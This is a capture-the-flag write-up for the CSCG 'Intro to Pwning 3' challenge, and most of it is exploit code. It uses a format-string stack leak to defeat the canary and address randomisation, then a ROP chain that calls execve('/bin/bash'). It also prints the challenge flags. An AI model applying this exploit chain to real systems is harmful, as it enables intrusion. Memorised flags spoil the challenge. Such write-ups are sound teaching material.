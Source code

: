 # Intro to Pwning 3

## Information
Category: Pwn   
Difficulty: Baby   
Author: LiveOverflow   
Dependencies: Intro to Pwning 2   
First Blood: LinHe   
Description: Service running at: hax1.allesctf.net:9102  

## Solution
Additionally to Intro to Pwning 2, we have the handicap that the WINgarium_leviosa() function is commented out, meaning we have to call execve() ourselves
using a ropchain. Just like before, we get all necessary information through a format string vulnerablity, that leaks the stack.   

So here is a summary of what we all need to craft a succesfully exploit.


1. stack canary 

2. reference into the stack segment

3. reference into code segment of libc


We first define some constants for useful indexes of our stack leak:

```python
#!/usr/bin/python
from pwn import *

STACK_CANARY_INDEX = 43
LIBC_RET_P_INDEX = 49
MAIN_RET_P_INDEX = 45
BASE_PTR_INDEX = 44

```

Next, we need to provide the flag for the last challange:

```python
# first stage
p = process("./pwn3", stdin=PIPE, stdout=PIPE)
print("[info] attached to process ")

#prepare first payload (password)
PASSWORD = "CSCG{THIS_IS_TEST_FLAG}" #CSCG{NOW_GET_VOLDEMORT}

# info
print("[info] password is")
print("[info] " + PASSWORD)

# inject payload
p.recvuntil("Enter the password of stage 2:\n")
p.sendline(PASSWORD)

```

We conduct our format string exploit:

```python
# info 
print("successfully passed pw check")

# format string exploitation
fstring = "%p " * 51
p.recvuntil("Enter your witch name:\n")
p.sendline(fstring)
leak = p.recvuntil(" enter your magic spell:\n")
addr_arr = leak.split(" ")

```

Here, we interpret the stack leak using our indexes explained at the top:

```python
# stack protector
stack_canary = addr_arr[STACK_CANARY_INDEX]

# get some addresses
p_libc = addr_arr[LIBC_RET_P_INDEX]
base_ptr = addr_arr[BASE_PTR_INDEX]

# get offsets of mapped files (lets you then calculate every function and subroutine)
p_libc_code_off = int(p_libc,16) - 0x271e3
p_pwn3_code_off = int(addr_arr[MAIN_RET_P_INDEX],16) - 0xd7e


# lets get some address functions
p_execve = p_libc_code_off + 0xe6010
p_execvp = p_libc_code_off + 0xe6550 # 0xc1550
p_system =  p_libc_code_off + 0x554e0 # 0x304e0
p_exit = p_libc_code_off + 0x49d40 # 0xe5fb0

```

We now output our findings for debugging 

```python
# info
print(" ###################### Stack Leaks ######################")
print("[info] libc .code offset@ " + hex(p_libc_code_off) )
print("[info]   --> execve@ " + hex(p_execve))
print("[info]   --> system@ " + hex(p_system))
print("[info]   --> exit@ " + hex(p_exit))
print("[info]   --> execvp@ " + hex(p_execvp))
print("[info] stack_canary@ " + stack_canary)
print("[info] stack base ptr@ " + base_ptr)
print("[info] pwn3 .code offset@ " + hex(p_pwn3_code_off))
print(" ##########################################################")

```


And finally we start crafting our exploit. Our payload, as last time, must start with the "Expelliarmus" in order to pass the string check.
We append "/bin/bash" after a nullbyte, such that strcmp() will terminate before that string. We pad the rest of the
"allocated stackbuffer" with nullbytes, but this is not important. 

```python
#preparing payload
payload = "Expelliarmus\x00" # that string
payload += "/bin/bash" # 
payload += (0xff - (len(payload)+1)) * '\x00' # fill to 255
payload += 10 * 'A' # alignment


```

We append the correct stack canary 

```python

# stack canary
payload += p64(int(stack_canary,16), endian='little') # place stack canary

```

We append the correct base pointer, this is actually not necessary in this case

```python
# base pointer
payload += p64(int(base_ptr,16), endian='little')

```

We create our ROP chain, that will load a pointer to "/bin/bash" into rdi. It will also load rsi and rbx with 0. 

```python
# use rop gadgets // create args (works)
payload += p64((p_pwn3_code_off+0xdf3), endian='little') # rop gadget to pop rdi
payload += p64(int(base_ptr,16)-0x123, endian='little') # pointer to /bin/sh



payload += p64((p_libc_code_off+0x2709c), endian='little') # rsi (verified)
payload += p64(0x0, endian='little') # ---> null

payload += p64((p_libc_code_off+0x10582d), endian='little') # rdx (verified)
payload += p64((0x0), endian='little') # --> null
payload += p64((0x0), endian='little') # --> null
payload += p64((0x0), endian='little') # --> null


payload += p64((p_pwn3_code_off+0x816), endian='little') # stack alignment

```

And finally call execve() with the previously set params.

```python
payload += p64(p_execve, endian='little')

p.sendline(payload)
p.interactive()

```

If everything goes to plan, we get a shell!

![](shell.png)


flag: CSCG{VOLDEMORT_DID_NOTHING_WRONG}


## Prevention

A possible fix for this issue could include sanitizing user input before echoing it via printf(). Outdatad functions like
gets() should also be avoided.